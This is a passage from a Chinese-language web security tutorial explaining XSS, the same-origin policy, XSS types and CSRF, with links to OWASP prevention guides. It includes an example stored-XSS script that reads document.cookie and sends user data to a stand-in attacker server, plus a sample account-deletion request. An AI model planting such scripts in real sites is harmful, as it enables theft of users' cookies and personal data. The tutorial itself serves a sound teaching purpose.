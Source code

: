## 7 什么是 Cross-Site Scripting?

Cross-Site Scripting 也叫做 XSS ，它允许攻击者将客户端代码侵入到用户的的浏览的页面中。为什么它可以做到这一点呢？因为它绕过了同源策略（Same Origin Policy)。

所谓同源策略也就是说浏览器针对同一个站点的内容都授予权限来访问资源，比如说 cookie 什么的。如果网站内容下面三者相同，就表明是同源的

1. URI schema 相同
2. host 名相同
3. port 相同

攻击者将有问题的脚本（一般为代码）通过安全的网站分发给浏览这个网站的用户，由于脚本现在属于同源的内容，因此有权限访问一些敏感的数据，并且将它们发送给攻击者，这样完成了数据窃取。
假设现在有一个相亲网站，你是其中的一名会员，不过你想知道有哪些人访问了你的主页。你可以在自我介绍的的输入框的最后，添加上这么一段代码

```js
<script> 
let cookie = document.cookie;
let userName = getUsername("https://www.binddate.com", cookie);
sendUserNameToMyServer("https://www.myserver.com", userName);
</script>
```

这样在别的会员在用浏览器加载你的主页的时候，你的自我介绍就会被从数据库中加载到用户的浏览器中。但是最后的 `script` 标签会被浏览器执行，由于是同源上的内容，所以正在浏览的用户的 cookie 就会被访问，进而读取到用户的姓名，完成了数据的窃取。

XSS 主要分为四种

1. Reflected. 这是大部分 XSS 的类型，它是由客户端提供的内容导致的。一般的搜索或者提交的 Web 应用都会返回用户的输入。如果用户的提交的的内容是攻击的代码，那么就可能导致问题的出现。

2. Stored: 这种类型是用户的攻击的代码存储在数据库中，而且能够将这个脚本发送给所有正常的页面。比如上面的例子就是这种类型。

3. Server-side versus DOM-based vulnerabilities: 这是将渲染和业务逻辑放置在客户端引出的 XSS 攻击

4. Mutated: 这是一种看上去安全的内容，但是但是它能够通过浏览器重写，修改和解析标记文本，比如少些一个闭合的方括号。

既然出现了 XSS 的攻击，就有办法阻止这种攻击

- [XSS 检查清单](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DOM 类型检查清单](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [代码 Review 注意事项](https://owasp.org/www-project-code-review-guide/migrated_content)

## 8 什么是Cross-Site Forgery Attack?

CSFA 是一种网络攻击，它强制终端用户执行一些原本不想执行的操作，这些操作使用了当前的用户的认证信息，比如 `cookie` 等等。那么 `CSFA` 是如何工作的呢？ 接下来我们举一个例子：
假设有一个网站叫做 `http://vulnerable.com`，我们在这个网站上有各自的账户，如果这个网站上的个人账户页面上提供了一个删除按钮，那么当我们点击这个按钮，那么这个按钮就会执行下面的 `HTTP` 请求

```
POST /delete_my_account HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Cookie: SessionID=d34dc0d3

delete = 1
```
